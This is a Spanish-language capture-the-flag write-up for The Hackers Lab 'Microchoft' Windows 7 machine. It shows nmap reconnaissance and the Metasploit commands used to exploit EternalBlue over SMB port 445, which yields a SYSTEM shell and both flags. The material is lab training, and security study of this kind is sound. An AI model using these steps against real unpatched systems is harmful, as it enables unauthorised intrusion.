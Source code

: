 # CTF - The Hackers Lab - Microchoft

## 📑 Información General

- **Nombre:** Microchoft
- **Dificultad:** Muy Fácil
- **SO:** #Windows
- **Vulnerabilidad principal:** EternalBlue
- **Fecha resolución:** 05/06/2025
- **MD5:** d3c63284f99639d8a19467f39ee7c57f
- **Enlace:** [The Hackers Lab - Microchoft](https://thehackerslabs.com/microchoft/)

>Objetivo > Obtener las flags: 
> - 🚩 user.txt 
> - 🚩 root.txt

## 🔎 Reconocimiento

### Escaneo Inicial
IP máquina víctima: **192.168.10.20**

Comprobamos la conectividad enviando un paquete `icmp` a dicha máquina. Además, en función del TTL sabremos distinguir el SO instalado en la misma. Dado que su TTL es 128, estamos frente a una máquina **Windows**.

![image](https://github.com/eliferrob/CTFs/blob/main/assets/microchoft%20(1).png)

### Escaneo de Puertos

```bash
nmap -p- --open -sS -sC -sV --min-rate 5000 -n -vvv -Pn 192.168.10.20
```

![image](https://github.com/eliferrob/CTFs/blob/main/assets/microchoft%20(2).png)

### Enumeración de Servicios

| Puerto | Servicio     | Versión                        |        Notas         |
| ------ | ------------ | ------------------------------ |:--------------------:|
| 135    | msrpc        | Microsoft Windows RPC          |          -           |
| 139    | netbios-ssn  | Microsoft Windows netbios-ssn  |          -           |
| 445    | microsoft-ds | Windows 7 Home Basics 7601 SP1 | Workgroup: WORKGROUP |
| 41955  | msrpc        | Microsoft Windows RPC          |          -           |

## 🌐 Exploración

Analizando el resultado devuelto con `nmap`, detectamos que el sistema operativo es **Windows 7 Home Basic SP1 (Service Pack 1)** . Este sistema, con el puerto 445 abierto, es vulnerable al clásico exploit **EternalBlue**.

## ⚔️ Explotación

Abrimos **Metasploit** y buscamos por el término "eternalblue". Nos devolverá varios resultados, pero a nosotros nos interesa el primero, así que lo seleccionamos y lo configuramos con los siguientes comandos:

```bash
search eternalblue
use 0
show options
set RHOSTS 192.168.10.20
run
```

La explotación ha sido un éxito. Hemos conseguido abrir una sesión de **meterpreter** con el usuario "NT Authority\System".

![image](https://github.com/eliferrob/CTFs/blob/main/assets/microchoft%20(3).png)

Abrimos una shell escribiendo `shell` y comprobamos qué usuarios hay registrados en la máquina víctima.

![image](https://github.com/eliferrob/CTFs/blob/main/assets/microchoft%20(4).png)

## 🔐Escalada de Privilegios

Nos desplazamos a la ruta `C:\Users` y listamos su contenido. Vemos que efectivamente tenemos las carpetas de los usuarios **Admin** y **Lola**, así que indagamos un poco en ellas y encontramos que en el escritorio guardan un fichero con su **flag**.

![image](https://github.com/eliferrob/CTFs/blob/main/assets/microchoft%20(5).png)

![image](https://github.com/eliferrob/CTFs/blob/main/assets/microchoft%20(6).png)

🚩 **Flag de root encontrada.**

![image](https://github.com/eliferrob/CTFs/blob/main/assets/microchoft%20(7).png)

🚩 **Flag de user encontrada.**
